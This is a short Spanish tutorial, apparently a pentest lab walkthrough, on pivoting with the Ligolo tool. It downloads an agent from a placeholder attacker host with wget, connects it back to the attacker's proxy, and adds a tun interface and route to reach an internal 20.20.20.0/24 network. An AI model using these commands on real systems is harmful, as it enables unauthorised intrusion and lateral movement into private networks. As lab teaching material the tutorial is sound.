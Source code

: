 ```
wget http://<IP-atacante>:<puertoAtacante>/agent
```

Una vez descargado dentro de la máquina 1, le damos permisos de ejecución desde máquina 1:

```
chmod +x agent
```

Ahora desde la máquina atacante, ejecutamos proxy que es el servidor, con un certificado firmado:

```
./proxy -selfcert
```

Pulsamos Y (Yes/sí) en ambas preguntas y comienza. Se queda a la escucha en 0.0.0.0 (es decir, la IP de la atacante) y te indica el puerto, en este caso por ejemplo 11601.

Ahora en máquina 1:

```
./agent -connect <IP-atacante>:<puertoQueDaLigolo> -ignore-cert
```

Ahora hay conexión entre atacante y máquina 1. Ahora debemos activar el túnel.

Para crear el túnel, debemos crear una nueva interfaz de red.

Abrimos un terminal en kali y creamos una interfaz de red:

```
sudo ip tuntap add user <nombreUserDeKali> mode tun ligolo
```

Levantamos la interfaz:

```
sudo ip link set ligolo up
```

Ya tenemos esa nueva interfaz, pero ahora debemos crear una ruta donde queremos llegar.

Para saber dónde queremos llegar, en máquina 1 hacemos ifconfig y vemos las demás redes, en este caso sería la 20. Así que desde kali otra vez, añadimos esta ruta de red:

```
sudo ip route add 20.20.20.0/24 dev ligolo
```

Y si hago ifconfig veo esta interfaz en Kali, que se llama ligolo.

Ahora desde atacante puedo tener acceso a esta red siempre y cuando active el túnel.

Así que en la terminal donde está ligolo en la atacante:

```
ligolo> session
```

Si solo hay una pues poner 1.

Y poner:

```
ligolo> start
```
